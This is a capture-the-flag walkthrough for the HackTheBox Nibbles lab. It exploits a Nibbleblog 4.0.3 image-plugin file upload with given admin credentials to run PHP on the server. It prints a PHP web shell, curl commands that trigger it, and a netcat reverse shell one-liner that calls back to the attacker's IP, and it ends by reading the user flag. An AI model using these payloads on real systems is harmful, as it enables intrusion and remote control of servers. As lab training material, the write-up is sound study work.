







<style>
    img{
        width:300px;
        height:150px;
    }
</style>

**Kali tun0 IP:** 10.10.15.59
**HTB IP**: 10.129.140.27

#### What is your goal now?
1. You already have admin login credentials. The goal is:
    - To attempt to turn this access into code execution.
    - Ultimately, gain reverse shell access to the webserver.
    - Metasploit module will likely work for this, `but` enumarate the admin portal to discover other avenues of attack.
2. Login to the **admin** console and explore the page
    - **Login**: admin, nibbles<br>
    
    - What it looks like?<br>
        - 
        - `Publish`: making a new post, video post, quote post, or new page. It could be interesting.
        - `Comments`: No published comments
        - `Manage`: Lets you manage posts and pages
        - `Settings`: Scrolling to the bottom confirms that the vulnerable version 4.0.3 is in use
        - `Themes`: lets you apply themes.
        - `Plugins`: Allows us to configure, install, or uninstall plugins. The **My image** plugin allows us to upload an image file.
            - Can this be used to upload **PHP code** as mentioned in the `nibbleblog` vulnerability?
3. Save this php code locally first
    ```php
    <?php system('id'); ?>
    ```
    - Create a file and save the php code there locally<br>
    
    - Go to `plugins` and My image and upload the php file instead of an image<br>
    
    - Uploading the php file gave a bunch of warnings. Now, we need to figure out whether the file was successfully uploaded.
    ```
    Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

    Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

    Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

    Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

    Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

    Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
    ```
4. Confirm whether the file was successfully uploaded:
    - From `Nibbles-2-Web-FootPrinting` in step **12** we found the ***content*** directory. Check this to see in the php script is uploaded successfully.<br>
    
    - The full path is available at `http://<host>/nibbleblog/content/private/plugins/my_image/`<br>
    
    - With a recent last modified date, meaning that our upload was successful!
5. Execute the php command using curl:
    ```sh
    curl http://10.129.140.27/nibbleblog/content/private/plugins/my_image/image.php
    ```
    - image.php and not nibbles_shell.php because that is how the server stores the file locally.
    ```sh
    ┌──(vishnu㉿kali)-[~/Desktop/HTB-Stuff]
    └─$ curl http://10.129.140.27/nibbleblog/content/private/plugins/my_image/image.php        

    uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
    ```
    - We are running as the user `nibbler`
6. Modify the php file to obtain a reverse shell:
    - You can use [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) to quickly look up reverseshell scrips.
    - Php revershell
    ```sh
    <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.59 9443 >/tmp/f"); ?>
    ```
    - The ip used is **Kali tun0 IP**
7. Upload this file as the image. Next:
    - open a netcat listner at **9443** on kali machine<br>
    
    - Use `curl` to reach the webpage
        ```sh
        curl http://10.129.140.27/nibbleblog/content/private/plugins/my_image/image.php
        ```
8. Upgrade to a fully functionting TTY:<br>
    
    - Browse around to find any interesting information
    ```sh
    nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ls
    ls
    db.xml  image.php
    nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd
    cd
    bash: cd: HOME not set
    nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd ~
    <ml/nibbleblog/content/private/plugins/my_image$ cd ~                        
    nibbler@Nibbles:/home/nibbler$ ls
    ls
    personal.zip  user.txt
    nibbler@Nibbles:/home/nibbler$ cat user.txt
    cat user.txt
    79c03865431abf47b90ef24b9695e148
    ```
    - Capture that flag!
